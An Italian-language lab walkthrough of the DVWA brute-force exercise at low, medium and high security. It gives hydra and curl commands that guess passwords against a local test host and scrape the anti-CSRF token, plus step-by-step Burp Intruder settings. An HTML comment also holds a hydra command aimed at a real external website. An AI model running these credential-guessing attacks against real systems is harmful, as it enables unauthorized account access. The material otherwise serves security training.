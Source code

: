 ## Brute force

- https://owasp.org/www-community/attacks/Brute_force_attack
- http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password
- http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html

<!--
NOTES
hydra -l hydra -P password.lst -s 80 -f www.sillychicken.co.nz http-post-form "/administrator/index.php:usrname=^USER^&pass=^PASS^&submit=Login:Incorrect Username"
-f Exits the program after the first match is made
-->

### Brute force - Low

Exploit:

- recupera un PHPSESSID valido (`$1`)

- lancia:

	`$ hydra -l admin -P rockyou.txt 172.17.0.2 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=$1; security=low"`

	parametri http-get-form: `"<RELATIVE PATH>:<PARAMETERS>:<FAILED LOGIN TEXT>:H=Cookie: <REQUEST COOKIES>"`

### Brute force - Medium

	// Login failed
        sleep( 2 );

Exploit:

- recupera un PHPSESSID valido (`$1`)

- lancia:

	`$ hydra -l admin -P rockyou.txt localhost http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=$1; security=medium" -c 3 -t 1`

### Brute force - High

	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

	...

    // Login failed
    sleep( rand( 0, 3 ) );

Exploit:

È necessario prima fare una GET per recuperare il CSRF token (`user_token`) e successivamente fare una seconda GET includendo il valore recuperato.

**curl**

- recupera un PHPSESSID valido (`$1`)

- ottieni il CSRF token

```
CSRF=$( curl -s --cookie "PHPSESSID=$1; security=high" 'http://172.17.0.2/vulnerabilities/brute/' | \
	awk -F 'value=' '/user_token/ {print $2}' | \
	cut -d "'" -f2)
```

- usalo nella richiesta di login

```
curl \
	--cookie "PHPSESSID=$1; security=high" \
	-L \
	-G -d "username=admin&password=password&user_token=$CSRF&Login=Login" \
	http://172.17.0.2/vulnerabilities/brute
```

**BurpSuite**

Configura Burp

- imposta il proxy Burp sul browser
- esegui un tentativo di login
- prepara l'Intruder
	- `Proxy` -> `HTTP History` -> trova la richiesta tramite cui hai eseguito il tentativo di login
	- Click destro -> `Send to Intruder`
	- `Intruder` -> `2` -> `Positions`
	- `Attack type`: `Pitchfork`
	- `Clear §`
	- nella query string per username impostare admin
	- Seleziona il valore della password nella query string -> `Add §`
	- Seleziona il valore del csrf token nella query string -> `Add §`
	- `Intruder` -> `2` -> `Payloads`
	- `Payload Sets` -> `Payload Sets`: `1` -> `Payload type`: `Simple list`
	- `Payload Options [Simple list]` -> `Load ...` : scegli wordlist di password
	- `Payload Sets` -> `Payload Sets`: `2` -> `Payload type`: `Recursive grep`
	- `Intruder` -> `2` -> `Options`
	- `Attack Results` -> disabilita `Make unmodified baseline request`
	- impostare l'estrazione del messaggio di output
		- `Grep` - `Extract` -> `Add`
		- Start after expression: `<pre><br />`
		- End at fixed lenght: `35`; per l'estrazione di `Username and/or password incorrect.`
		- `Ok`
	- impostare l'estrazione del csrf token
		- `Grep` - `Extract` -> `Add`
		- Start after expression: `name='user_token' value='`
		- End at fixed lenght: `32`
		- `Ok`
	- `Intruder` -> `2` -> `Payloads` -> `Payload Options [Recursive grep]` -> `FROM [name='user_token' value='], length 32` (la seconda regola Extract grep creata)
	- da browser ricaricare la pagina di login e inserire il csrf token in `Payload Options [Recursive grep]` -> `Initial payload for first request`
- lancia l'Intruder
	- `Intruder` -> `Target` -> `Start attack`

N.B. Per aggirare lo sleep rand a seguito di un tentativo di login errato avresti bisogno di Burp Professional (`Intruder` -> `2` -> `Options` -> `Request Engine` -> `Throttle` -> `Fixed`). Quindi l'attacco con Burp Community potrebbe non individuare la password valida.